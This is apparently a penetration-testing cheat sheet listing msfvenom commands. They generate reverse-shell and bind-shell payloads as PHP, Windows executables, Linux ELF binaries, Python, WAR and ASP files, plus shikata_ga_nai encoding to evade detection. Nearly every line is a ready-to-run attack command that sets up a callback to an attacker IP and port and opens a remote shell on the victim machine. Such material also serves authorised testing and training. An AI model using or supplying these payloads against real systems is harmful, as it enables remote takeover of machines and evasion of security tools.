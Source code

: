 ## Reverse Shell with Msfvenom - Cheatsheet

### List payloads

```
msfvenom -l
```

Or

```
msfvenom --list payloads
```

### Generate a PHP payload

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```

### Generate a Windows payload

##### Meterpreter - Reverse shell (x64):
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > reverse.exe
```

##### Meterpreter - Reverse shell:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_PORT> -f exe > reverse.exe
```

##### Meterpreter - Bind shell:
```
msfvenom -p windows/meterpreter/bind_tcp RHOST=<Target_IP> LPORT=<Target_Port> -f exe > bind.exe
```

##### CMD - Reverse shell:

```
msfvenom -p windows/shell/reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_port> -f exe > prompt.exe
```

### Generate a Linux payload

##### Meterpreter - Reverse shell:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_port> -f elf > reverse_bin
```

### Generate a Python payload

```
msfvenom -p cmd/unix/reverse_python LHOST=<Attacker_IP> LPORT=<Attacker_port> -f raw > reverse.py
```

### Generate a WAR payload

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_port> -f war > payload.war
```

### Generate an ASP payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_PORT> -f asp > reverse.asp
```

### Generate encoded payloads

##### Shikata\_ga\_nai
```
msfvenom -p <PAYLOAD> -e shikata_ga_nai -i 5 -f raw > reverse
```
